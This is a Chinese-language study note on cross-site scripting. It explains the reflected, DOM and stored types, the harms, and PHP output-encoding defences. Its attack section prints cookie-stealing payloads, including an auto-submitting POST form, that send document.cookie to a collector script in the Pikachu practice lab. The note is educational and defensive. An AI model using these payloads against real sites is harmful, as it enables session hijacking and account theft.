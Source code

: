 - [XSS攻击如何产生？](#xss攻击如何产生)
- [主要类型以及原理？](#主要类型以及原理)
- [XSS危害](#xss危害)
- [利用XSS进行攻击活动](#利用xss进行攻击活动)
- [如何防护](#如何防护)


## XSS攻击如何产生？

黑客在你的浏览器中插入一段恶意 JavaScript 脚本，窃取你的隐私信息、冒充你的身份进行操作。这就是 XSS 攻击(Cross-Site Scripting，跨站脚本攻击)

因为浏览器无法区分脚本是被恶意注入的还是正常的内容，它都会执行，况且 HTML 非常灵活，可以在任何时候对它进行修改。

XSS漏洞的核心就是，网页执行了构造的恶意脚本。至于如何让网页执行，就是XSS漏洞的挖掘点。网页的内容一般都是由后端服务器发送过来，一般来说后端服务器接收前端请求，执行一些操作，再返回数据到前端进行展示。

返回的数据有两种来源：

第一种：前端发送过来的，后端进行了一些操作，再发回前端（可能增加、减少数据）
--》这种情况就有可能产生**反射型XSS**

第二种：与数据库交互，从数据库中读取数据到前端显示。
--》这种情况就有可能产生**存储型XSS**（前提是已经将恶意payload写入数据库）

因此对于XSS漏洞的防护就可以从两个角度进行：
- 对输入进行过滤
- 对输出进行转义

## 主要类型以及原理？
- 反射型
  - 顾名思义，恶意 JavaScript 脚本属于用户发送给网站请求中的一部分，随后网站又将这部分返回给用户，恶意脚本在页面中被执行。一般发生在前后端一体的应用中，服务端逻辑会改变最终的网页代码。
    eg: ?input=<script>alert(1)</script>
  - <img src="images/image-20210304212336102.png" alt="image-20210304212336102" width="50%;" />

- DOM型
  - 目前更流行前后端分离的项目，反射型 XSS 无用武之地。 但这种攻击不需要经过服务器，我们知道，网页本身的 JavaScript 也是可以改变 HTML 的，黑客正是利用这一点来实现插入恶意脚本。
  - <img src="images/image-20210304212357239.png" alt="image-20210304212357239" width="50%;" />


- 存储型
  - 又叫持久型 XSS，顾名思义，黑客将恶意 JavaScript 脚本长期保存在服务端数据库中，用户一旦访问相关页面数据，恶意脚本就会被执行。常见于搜索、微博、社区贴吧评论等。
  - <img src="images/image-20210304212425402.png" alt="image-20210304212425402" width="50%;" />


## XSS危害

！！因为XSS借助于构造JS脚本实现，所以任何使用JS可以实现的事情都可以通过XSS实现。 
- 通过 document.cookie盗取 cookie中的信息
- 使用 js或 css破坏页面正常的结构与样式
- 流量劫持（通过访问某段具有 window.location.href 定位到其他页面）
- dos攻击：利用合理的客户端请求来占用过多的服务器资源，从而使合法用户无法得到服务器响应。并且通过携带过程的 cookie信息可以使服务端返回400开头的状态码，从而拒绝合理的请求服务。
- 利用 iframe、frame、XMLHttpRequest或上述 Flash等方式，以（被攻击）用户的身份执行一些管理动作，或执行一些一般的如发微博、加好友、发私信等操作，并且攻击者还可以利用 iframe，frame进一步的进行 CSRF 攻击。
- 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力。

## 利用XSS进行攻击活动
攻击payload的制作分两种类型：
- **Get型 ** 
  
  构造恶意链接中带有参数

>eg:`http://**.**.**/pikachu/vul/xss/xss_reflected_get.php?message=test&submit=submit`
>
>message的内容会在页面上显示，所以可以在message参数值中构造js语句执行一些恶意操作
>
>eg:`<script>document.location = 'http://**.**.**/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>`   盗取cookie值


- **Post型 ** 
需要构造一个页面，页面中包含表单，提交表单数据形成post请求

页面中包含一个表单，表单的请求地址是存在XSS漏洞的页面地址。
post提交的内容是恶意内容，value值。
表单请求执行结果返回到xss_reflected_post.php，触发执行value中的内容。

```html
<html> 
  <head> 
    <script>window.onload = function() {  document.getElementById("postsubmit").click();}</script> 
  </head> 
  <body> 
    <form method="post" action="http://10.201.164.32/pikachu/vul/xss/xsspost/xss_reflected_post.php">     
      <input id="xssr_in" type="text" name="message" value="<script>document.location = 'http://10.201.164.32/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;  </script>"/>     
      <input id="postsubmit" type="submit" name="submit" value="submit" /> 
    </form> 
  </body> 
</html>
```



## 如何防护
根据恶意内容在浏览器上显示的位置不同划分：

1. html普通标签位置输出
   
   将内容输出到`<div> 、<p> `等html中常见的标签中，当作标签的内容显示。
  
  -->直接使用htmlspecialchars实体编码即可，将特殊字符进行html编码后，浏览器再自动解码，即仅显示内容，而不会去解析其语法含义。

   eg:

      ```php
      $div=$_GET['div'];
      //解决方法：
      // $div .= htmlspecialchars($_GET['div'],ENT_QUOTES);  
      <div>
        <?php echo $div;?>
      <div>
      ```
   
   

2. 普通标签的普通属性
   
   如输出到input的value属性值
  
  -->直接使用htmlspecialchars实体编码即可
   
   ```php
    $msg .= $_GET['msg'];
      //    防范措施:html实体编码
      //    $msg .= htmlspecialchars($_GET['msg'],ENT_QUOTES);
    <form>
      <input name="msg" value="<?php echo $msg;?>">
    </form>
   ```

3. 输出在事件属性中

  输出位置在标签的事件属性中，如onmouseover
  -->
  ```php

    <form>
      <input type="button" value="submit" onmouseover="init('<?php echo $in;?>')">
    </form>
  ```

4. 输出在特殊的属性中

  如a标签的href属性
  
  --> 按输入的内容的合法格式进行正则匹配，检查是否是url，再进行html实体编码。
  
  a标签中href属性支持javascript:伪代码执行
  
  ```php
  function check_url($url){
    if (preg_match('/\Ahttp:/',$url) || preg_match('/\Ahttps:/',$url) || preg_match('#\A/#',$url)){
        return true;
    }else{
        return false;
    }
  }
  if (isset($_GET['url'])){
    $url .= htmlspecialchars($_GET['url'],ENT_QUOTES);
  }
  
  <a href="<?php echo $url;?>">www.google.com</a>

  ```

5. 输出点在js中

  输出内容在一段js代码中
  -->转义函数:所有的字符串,除字母,数字,.号,-号外的其他全部进行转义为unicode(utf-8是unicode的一种实现),unicode可以在js中可以被正常解析使用,所有的转义操作在后台进行后输出到前台。
  
  注意：js本身不解析html实体字符
  
  ```php
  //转换字符的编码
  function unicode_escape($str){
      $u16 = mb_convert_encoding($str[0],'UTF-16');
      return preg_replace('/[0-9a-f]{4}/','\u$0',bin2hex($u16));
  }
  //将字母和数字还有.-排除后的剩下的字符全部\uXXXX的unicode的形式进行转义
  //搜索一个正则,并使用指定的回调函数进行callback
  function escape_js_string($input){
      return preg_replace_callback('/[^-\.0-9a-zA-Z]+/u','unicode_escape',$input);
  }

  <script type="text/javascript">
    function init() {}
    // 005-输出点在js中,构造闭合，即可，payload:xx';alert(1);//
    var echoxy = '<?php echo $name;?>';
    //    alert(echoxy);
    if (echoxy === '>中国'){
        alert("比较成功,你的编码杠杠的~");

    }
  </script>
  
  ```


总体思路:对用户输入进行过滤,对输出进行编码;

1. 对用户输入进行XSS防御方式有2种:
   
   基于黑名单的过滤和基于白名单的过滤. 而白名单相对来说更安全;
   
   黑名单:只规定哪些数据不能被输入,很可能被绕过;比如对 '  "   <> 等进行过滤
   
   白名单:只定义哪些数据正常才能被提交;

2. 设置http-only参数为true,这样JS就不能读取cookie信息了;(特殊常见可能被绕过)
   
   Cookie使用过程：
   
    Step1：浏览器向服务器发起请求，这时没有Cookie。
   
    Step2：服务器返回时发送Set-Cookie头，向客户端浏览器写入Cookie。
   
    Step3：在该Cookie到期前，浏览器访问该域下的所有页面，都将发送该Cookie。
    HTTPOnly是在Set-Cookie时被标记的。服务器可能会设置多个Cookie（多个key-value对），而HttpOnly可以有选择性地加在任何一个Cookie值上。在某些时候，应用可能需要JavaScript访问某几项Cookie，这种Cookie可以不设置HttpOnly标记；而仅把HttpOnly标记给用于认证的关键Cookie。

3. 使用一些函数进行防御

  * htmlspecialchars()：将输入内容转换成HTML实体
  	* &--》&amp 

  	* “  --》&quot

  	* ’  --》&#039

  	* < --》&lt

  	* \> --》&gt

  * htmlentities()：把特殊字符转换成HTML实体
    * '  "  &
  * strip_tags()：自动去掉字符中的标签
    * eg:<script>alert(document.cookie);</script>--->alert(document.cookie)

   使用这种方式，链接跳转也有可能出现XSS

   即标签的href、src等属性中，包含javascript:等可执行代码

   另外，style的属性中：
   background-image:url("javascript:....")

   expression(js代码)
   这两种也有可能导致xss，但目前已被浏览器修复。
   eg：<a href="javascript:alert(&#x27;XSS;&#x27)"></a>(单引号被html编码)

   当用户点击该链接时仍会弹出xss

   需要检验其内容，禁止以javascript:开头的链接或者其他非法的scheme

4. 不要随意打开一些来历不明的网站或链接